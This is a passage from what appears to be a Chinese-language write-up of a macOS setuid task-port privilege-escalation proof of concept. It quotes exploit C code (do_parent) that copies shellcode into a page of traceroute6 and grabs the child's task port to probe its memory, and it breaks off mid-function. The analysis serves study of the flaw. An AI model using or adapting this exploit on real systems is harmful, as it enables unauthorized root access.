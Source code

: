 子进程做的事情也非常的简单，将自己的port发送给父进程，确保父进程已经获取到port之后，执行setuid的程序，poc中使用的是traceroute6。

### 3.3 do_parent

```
void do_parent(mach_port_t service_port) {
  kern_return_t err;

  // generate the page we want to write into the child:
  // 申请一页内存，并且会将这一页内存写入子进程
  mach_vm_address_t addr = 0;
  err = mach_vm_allocate(mach_task_self(),
                         &addr,
                         4096,
                         VM_FLAGS_ANYWHERE);

  if (err != KERN_SUCCESS) {
    mach_error("failed to mach_vm_allocate memory", err);
    return;
  }

  //将0x153c处的写入shellcode
  FILE* f = fopen(suid_binary_path, "r");
  fseek(f, 0x1000, SEEK_SET);

  fread((char*)addr, 0x1000, 1, f);
  fclose(f);

  memcpy(((char*)addr)+0x53c, shellcode, sizeof(shellcode));

  // wait to get the child's task port on the service port:
  // 等待子进程发送过来的port
  task_msg_recv_t msg = {0};
  err = mach_msg(&msg.header,
                 MACH_RCV_MSG,
                 0,
                 sizeof(msg),
                 service_port,
                 MACH_MSG_TIMEOUT_NONE,
                 MACH_PORT_NULL);

  if (err != KERN_SUCCESS) {
    mach_error("error receiving service message", err);
    return;
  }

  mach_port_t target_task_port = msg.port.name;

  // before we ack the task port message to signal that the other process should execve the suid
  // binary get the lowest mapped address:
  // 立刻获取内存的信息
  struct vm_region_basic_info_64 region;
  mach_msg_type_number_t region_count = VM_REGION_BASIC_INFO_COUNT_64;
  memory_object_name_t object_name = MACH_PORT_NULL; /* unused */

  mach_vm_size_t target_first_size = 0x1000;
  mach_vm_address_t original_first_addr = 0x0;

  err = mach_vm_region(target_task_port,
                       &original_first_addr,
                       &target_first_size,
                       VM_REGION_BASIC_INFO_64,
                       (vm_region_info_t)&region,
                       &region_count,
```